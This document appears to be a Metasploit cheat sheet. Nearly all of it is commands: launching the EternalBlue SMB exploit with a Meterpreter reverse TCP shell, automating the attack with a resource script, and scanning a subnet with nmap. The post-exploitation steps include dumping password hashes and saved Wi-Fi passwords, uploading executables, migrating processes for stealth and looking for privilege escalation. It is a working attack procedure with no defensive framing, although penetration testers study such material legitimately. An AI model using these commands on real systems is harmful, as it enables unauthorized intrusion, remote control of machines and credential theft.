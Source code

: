 
---

## 1. Before Getting Meterpreter Shell — Setup and Exploit Launch
```
# Start Metasploit Console
msfconsole

# Select the exploit module (example: EternalBlue SMB)
use exploit/windows/smb/ms17_010_eternalblue

# Set the target IP address
set RHOSTS 192.168.1.10

# Set your local IP for the reverse shell callback
set LHOST 192.168.1.5

# Choose a payload (64-bit Windows Meterpreter reverse TCP)
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Optionally set a port (default 4444)
set LPORT 4444

# Check exploit options
show options

# Launch the exploit
exploit
```

## 2. After Getting a Meterpreter Shell
```
# Meterpreter prompt appears:
meterpreter >

# Get system info
sysinfo

# Capture screenshot
screenshot

# Dump password hashes
hashdump

# Upload a file to target
upload /path/to/local/file.exe C:\\Windows\\Temp\\file.exe

# Execute a command on target shell
execute -f cmd.exe -c

# Dump saved Wi-Fi passwords (if admin)
run post/windows/gather/wifi_passwords

# Migrate to another process for stealth
ps       # list processes
migrate <pid> 

# Get a command shell
shell

# Background the session (return to msfconsole)
background
```

## 3. Automating Meterpreter with Resource Scripts

Save repeated commands in a `.rc` script:
```
# example.rc
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LPORT 4444
exploit
```

Run with:
```
msfconsole -r example.rc
```

If you already have a Meterpreter shell on the target system, you can use the

```
multi/recon/local_exploit_suggester
```

module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

###  Target Network using Metasploit

We need to configure metasploit db

```
service postgresql start  
msfconsole  
db_status  
  
msfdb init  
  
service postgresql restart  

db_status
```

Here, we are scanning the whole subnet 10.10.1.0/24 for active hosts.

```
nmap -Pn -sS -A -oX Test 10.10.1.0/24  
  
db_import Test
```

Type **hosts** and hit Enter to view the list of active hosts along with their MAC addresses, OS names, etc. Type **services** or **db_services** and hit Enter to receive a list of the services running on the active hosts.
